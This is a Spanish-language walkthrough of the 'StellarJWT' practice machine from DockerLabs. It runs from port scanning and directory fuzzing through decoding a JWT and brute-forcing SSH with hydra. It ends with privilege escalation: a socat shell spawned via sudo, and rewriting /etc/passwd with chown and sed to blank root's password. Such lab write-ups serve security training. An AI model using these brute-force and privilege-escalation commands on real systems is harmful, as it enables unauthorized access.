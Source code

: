 # 📘 Informe Técnico - Máquina: *StellarJWT*

* **Nivel:** Fácil
* **Propósito:** Aprender a identificar y explotar una vulnerabilidad en una aplicación web con autenticación basada en JWT.
* **Objetivo:** Obtener acceso root a la máquina a través de técnicas de enumeración, fuerza bruta y escalada de privilegios.

---

![Logo](Imagenes/Logo.png)

## 🛠️ Despliegue de la Máquina

Primero, descargamos el archivo `.zip` desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip stallarjwt.zip
```

Para desplegar la máquina usamos el siguiente comando:

```bash
sudo bash auto_deploy.sh stellarjwt.tar
```

Verificamos que la máquina esté activa con un `ping`:

```bash
ping -c1 172.17.0.2
```

![Nmap Puertos](Imagenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Escaneo de puertos con `nmap` para descubrir servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
![Ping a la máquina](Imagenes/Capturas.png)

Resultado:

* Puerto 22 → SSH
* Puerto 80 → HTTP (servidor web activo)

Usamos mi script personalizado `extractPorts` para filtrar los puertos importantes y luego hacemos un escaneo más detallado de versiones:

```bash
nmap -sCV -p22,80 172.17.0.2
```

![Nmap detallado](Imagenes/Capturas_2.png)

---

## 🌐 Enumeración Web

Visitamos la página web principal pero no encontramos información útil. Por ello, iniciamos una búsqueda de directorios ocultos (fuzzing) usando `gobuster`:

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Resultados encontrados:

* `/index.html` → Página principal
* `/universe/` → Imagen

![Gobuster resultados](Imagenes/Capturas_4.png)

---

## 🖼️ Análisis de Archivos

Accedemos al directorio `/universe/` y encontramos una imagen:

```bash
wget http://172.17.0.2/universe/universe.jpg
```

Analizamos su metadata con `exiftool`:

```bash
exiftool universe.jpg
```

No encontramos nada relevante.

![Exiftool](Imagenes/Capturas_6.png)

---

## 🔑 Detección de JWT

Al revisar el código fuente de la web, notamos una cadena que parece un token JWT. Al investigar el nombre de la máquina (*stellarjwt*), confirmamos que está relacionada con tokens JWT.

![Código fuente](Imagenes/Capturas_7.png)

Usamos el sitio [jwt.io](https://jwt.io/) para decodificar el token y obtenemos el nombre de usuario:

```
Usuario: neptuno
```

![JWT Decode](Imagenes/Capturas_8.png)

---

## 🧠 Ingeniería Social y Fuerza Bruta SSH

La página web pregunta:
**"¿Qué astrónomo alemán descubrió Neptuno?"**
Respuesta: **Johann Gottfried Galle**

Creamos una lista de contraseñas basada en este nombre:

```bash
nano contraseña.txt
```

Verificamos que el archivo no tenga espacios indeseados:

```bash
cat -A contraseña.txt
```

Realizamos fuerza bruta con `hydra`:

```bash
hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t 20
```

Resultado:

```
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
```

![Hydra resultado](Imagenes/Capturas_10.png)

---

## 📥 Acceso Inicial (SSH)

Ingresamos al sistema con:

```bash
ssh neptuno@172.17.0.2
```

Revisamos los archivos del sistema y encontramos un archivo `.txt` con una contraseña:

```bash
ls -la
cat nasa.txt
```

Contraseña encontrada: **Eisenhower**

Nos conectamos como el usuario `nasa`:

```bash
su nasa
```

Verificamos privilegios sudo:

```bash
sudo -l
```

Salida:

```text
(elite) NOPASSWD: /usr/bin/socat
```

---

## 🚀 Escalada de Privilegios a usuario *elite*

La línea anterior indica que el usuario `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

**`socat` permite crear una shell interactiva si se ejecuta correctamente.**

Ejecutamos:

```bash
sudo -u elite /usr/bin/socat stdin exec:/bin/bash
```

Ahora somos el usuario `elite`.

Verificamos nuevamente permisos sudo:

```bash
sudo -l
```

Salida:

```text
(root) NOPASSWD: /usr/bin/chown
```

---

## 👑 Escalada de Privilegios a *root*

El usuario `elite` puede ejecutar `chown` como root. Esto nos permite cambiar el propietario de archivos críticos del sistema como `/etc/passwd`, que contiene la información de usuarios y contraseñas.

### ⚠️ Riesgo

Modificar `/etc/passwd` incorrectamente puede dejar el sistema inoperativo. Lo hacemos cuidadosamente:

1. Cambiar permisos para que `elite` pueda modificar `/etc/passwd`:

```bash
sudo chown elite:elite /etc/
sudo chown elite:elite /etc/passwd
```

2. Editamos la línea de root para quitarle la contraseña:

```bash
echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd
```

3. Nos convertimos en root:

```bash
su
```

Ahora somos root.

![Escalada final](Imagenes/Capturas_15.png)
![Root acceso](Imagenes/Capturas_16.png)

---

## ✅ Conclusión

* Logramos acceso inicial explotando JWT y usando ingeniería social.
* Accedimos vía SSH con `hydra` y credenciales deducidas.
* Escalamos privilegios a través de `socat` y luego abusamos de `chown` para modificar `/etc/passwd`.
* Acceso *root* obtenido con éxito.
